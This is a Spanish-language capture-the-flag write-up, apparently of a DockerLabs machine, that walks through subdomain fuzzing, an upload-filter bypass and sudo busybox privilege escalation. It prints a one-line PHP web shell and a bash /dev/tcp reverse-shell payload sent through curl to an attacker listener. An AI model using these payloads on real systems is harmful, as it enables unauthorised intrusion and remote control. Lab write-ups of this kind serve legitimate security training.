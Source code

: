 ## FASE DE ENUMERACIÓN
Hacemos un escaneo de puertos y servicios de la IP 
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
ORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
solo tenemos el puerto 80 abierto, mirammos con herramientas como whatweb etc y no veo nada interesante, me voy a la página y veo esta parte:
```
The default Debian document root is /var/www/5eEk3r
```
así pues empiezo a pensar en virtual hosting, así pues ejecuto lo siguiente:
```bash
sudo nano /etc/hosts
```
y añadp esta línea al final:
```bash
172.17.0.2      5eEk3r
```
después de realizar fuzzing de directorios y extensiones y no encontrar nada veo esta parte en el index.html:
```
The default Debian document root is /var/www/5eEk3r. You can make your own virtual hosts under /var/www.
```
así pues lo añado al etc/hosts
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r
```
y lo abro en el navegador, dádome esto:
```
Apache/2.4.62 (Debian) Server at 5eEk3r.dl Port 80
```
así pues añadimos de nuevo en el /etc/hosts lo encontrado:
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl
```
y viendo por donde van los tiros, voy a fuzzear si hay más subdomkinios:
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.5eek3r.dl" http://5eek3r.dl | tee dominios
```
## Explicación del comando:
1- wfuzz: Herramienta de fuzzing utilizada para buscar subdominios.

2- -c: Activar la coloración de salida en la terminal.

3- --hc=404: Ignorar respuestas con código de estado 404 (no encontrado).

4- --hh=10705: Ignorar respuestas con un tamaño de encabezado HTML de 10705 bytes.

5- -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt: Ruta al diccionario de subdominios a utilizar.

6- -H "Host: FUZZ.5eek3r.dl": Utiliza el encabezado Host con el marcador de posición FUZZ que será reemplazado por las entradas del diccionario.

7- http://5eek3r.dl: URL base a la que se realizarán las solicitudes.

8- | tee dominios: Redirige la salida tanto a la terminal como a un archivo llamado dominios.

Este comando realizará el fuzzing en busca de subdominios válidos de 5eek3r.dl utilizando el diccionario proporcionado, ignorando ciertos códigos de estado y tamaños de respuesta.
Los resultados serán guardados en el archivo dominios y también se mostrarán en la terminal.


obetengo como resultado:
```
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://5eek3r.dl/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000009532:   400        10 L     35 W       301 Ch      "#www"                                                                                                                                                                      
000010581:   400        10 L     35 W       301 Ch      "#mail"                                                                                                                                                                     
000042993:   200        101 L    75 W       932 Ch      "crosswords"
```
un 200 ok, pues lo introduzco en el /etc/hosts de nuevo, quedándome así:

```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl crosswords.5eEk3r.dl
```

hago un fuzzing su solo encuentro index.php, miro su código fuente y al final veo esto:
```
http://crosswords.5eek3r.dl/index.php/
```
```
<! -- Al que contratamos para crear la web nos habló de algo llamado 'xss'... que será? -->
```

despues ver lograr inyectar un XSS y dar mil vueltas me doy cuenta que es un rabbithole, así pues me pongo a buscar más,
me acordé del tema de los dominios y volví a ellos.
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crosswords.5eEk3r.dl" http://5eek3r.dl
```
```
000000024:   200        103 L    189 W      2906 Ch     "admin"
```
así pués lo añadimos de nuevo al /etc/hosts, nuevo domion admin.crosswords.5eEk3r.dl

## FASE DE INTRUSIÓN:

vamos a la página y vemos un panel interesante, dónde puedo subir archivos, subo un archivo en php y me dice:
```
No se permiten archivos PHP, solo HTML.
```
voy a probar con varias extensiones de php con un pequeño diccionario y burpsuite:
```
php
phps
phar
pht
phtm
phtml
pgif
shtml
php2
php3
php4
php
php6
php7
phps
phps
pht
phtm
phtml
pgif
shtml
htaccess
phar
inc
hphp
ctp
module
```
el contenido algo sencillito:
```bash
<?php system($_GET['cmd']); ?>
```
y...entraron varias xD
hago una busqueda y parece ser que aquí no se han subido los archivos, así pues empiezo a mirar en los otros subdominios
y efectivamente en http://crosswords.5ee3r.dl están alojados, al menos "shell.phar" es verdad que de todos los subidos algunos no estaban:
así pues con nuestro amigo curl vamos a intentar hacernos una reverseshell, usaremos este payload:
```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```
pero hay que encodearlo para que de menos problemas y hacemos la peticion con curl:
```bash
curl "http://crosswords.5eek3r.dl/shell.phar?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27"
```
y ponerse a la escucha en el 445:
```bash
sudo nc -nvlp 445
```
Por fin estamos dentro.

## ESCALADA DE PRIVILEGIOS


Lo primero tratamiento de la TTY:
```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```
primero miro si estoy en algún grupo con priviegios y nada, luego las variables de entorno y nada, pruebo:
```bash
sudo -l
```
```
User www-data may run the following commands on dockerlabs:
    (astu : astu) NOPASSWD: /usr/bin/busybox
```
miro en :
```bash
https://gtfobins.github.io/gtfobins/busybox/#sudo
```
información sobre el binario y ejecutando esto deberia escalar al usuario astu:
```bash
sudo -u astu /usr/bin/busybox sh
```

Ya somos astu, volvemos a mirar con "id" si estamos en algun grupo privilegiado, no es así, variable de entorno,
nada, sudo -l no tenemos credenciales, así pues toca mirar que podemos encontrar.
vamos al home de astu y hay una carpeta con un binario.
lo ejecutamos :
```bash
./bs64
```
```
Ingrese el texto: sadasd
c2FYXN
```
pues vamos a probar a ver si se trata de un bof:
```
./bs64
Ingrese el texto: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
YWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYW=
Segmentation fault
```
Segmentation fault, se trata de un bof.

y hasta aquí he llegado porque no se hacer bof xD... tendré que ponerme a ello en un futuro.


